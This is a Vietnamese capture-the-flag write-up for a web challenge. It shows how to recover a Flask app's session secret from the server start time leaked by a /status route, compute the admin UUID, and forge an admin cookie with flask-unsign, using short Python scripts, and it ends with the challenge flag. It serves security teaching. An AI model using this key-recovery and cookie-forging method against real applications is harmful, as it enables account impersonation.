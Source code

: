 ![image](../img/2.1.png)

start chall lên, cho 1 form login với tài khoản nào cũng được mà không cần register, tuy nhiên sẽ không nhả ra flag, suree
![image](../img/2.2.png)

và nó sẽ tạo ra 1 cookie dạng JWT cho mỗi người dùng login
![image](../img/2.3.png)

mình view source

flag nằm ở route `admin`
![image](../img/2.4.png)

tuy nhiên để có quyền vào được `/admin` thì cần cung cấp 1 cookie thỏa mãn dòng 50, cần bypass 3 giá trị

tại dòng 10 chứa giá trị key dùng để mã encrypt và decrypt cookie, sử dụng` mã đối xứng sha256`. Nó nối chuỗi `secret_key` với `$server_start_str` được định nghĩa bên trên.
![image](../img/2.5.png)

Vấn đề đặt ra là chúng ta chưa biết `server_start_time` ở remote là bao nhiêu?


để ý thấy đoạn code trong route `/status`. Lợi dụng dòng 57 chúng ta có thể lấy được `server_start_time`

`server_start_time = current_time - uptime`
![image](../img/2.6.png)

mà `uptime` thì đã biết
![image](../img/2.7.png)

biết script lấy `server_start_time`

```
from datetime import datetime, timedelta

# Định nghĩa các biến
current_time_str = "2024-09-21 10:34:46"
uptime_str = "0:04:32"

# Chuyển đổi chuỗi thành đối tượng datetime
current_time = datetime.strptime(current_time_str, '%Y-%m-%d %H:%M:%S')

# Chuyển đổi uptime thành timedelta
hours, minutes, seconds = map(int, uptime_str.split(':'))
uptime = timedelta(hours=hours, minutes=minutes, seconds=seconds)

# Tính toán server_start_time
server_start_time = current_time - uptime

# Định dạng server_start_time
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')

print(server_start_str)

```

script lấy `uuid` của admin

```
import uuid
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
uid = uuid.uuid5(secret, 'administrator')
print(uid)
```

script lấy `secure_key`

```
import hashlib

# Định dạng server_start_str từ thời gian khởi động
server_start_str = "20240921103014"  

# Tạo chuỗi bí mật và tính secure_key
secret_key_base = f'secret_key_{server_start_str}'
secure_key = hashlib.sha256(secret_key_base.encode()).hexdigest()

print(secure_key)

```

vậy là xong rồi đó, dùng `flask-unsign` để tạo cookie mới thôi
![image](../img/2.8.png)

lấy flag
![image](../img/2.9.png)

FLAG: `PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}`





